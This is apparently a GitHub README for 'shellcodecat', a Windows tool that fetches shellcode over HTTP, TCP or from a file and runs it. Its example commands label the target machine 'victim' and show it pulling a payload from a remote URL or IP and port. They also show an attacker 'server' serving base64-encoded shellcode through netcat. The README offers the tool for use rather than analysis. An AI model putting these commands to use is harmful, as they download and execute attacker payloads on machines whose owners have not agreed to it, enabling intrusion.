 # shellcodecat

shellcodecat is a tool to launch your shellcode from http, tcp or file on Windows platform

## compile

if you want to launch x64 shellcode you should compile the x64 version

## usage

```
usage: shellcodecat.exe [-h] --[tcp|file|http] location
 arguments :
 -h, --help             show this help message and exit
 --tcp <ip:port>        get file by tcp
 --file <path>          file by py path
 --http <url>           file by http
 -b                     using base64 decode the data
```

some example:

```
# get shellcode from http
victim > shellcodecat.exe --http http://hostname/path/to/file

# get shellcode from http using base64 encode
server > cat shellcode.bin|base64 -w 0|nc -lv -p 7777
victim >shellcodecat.exe --tcp x.x.x.x:7777 -b
```





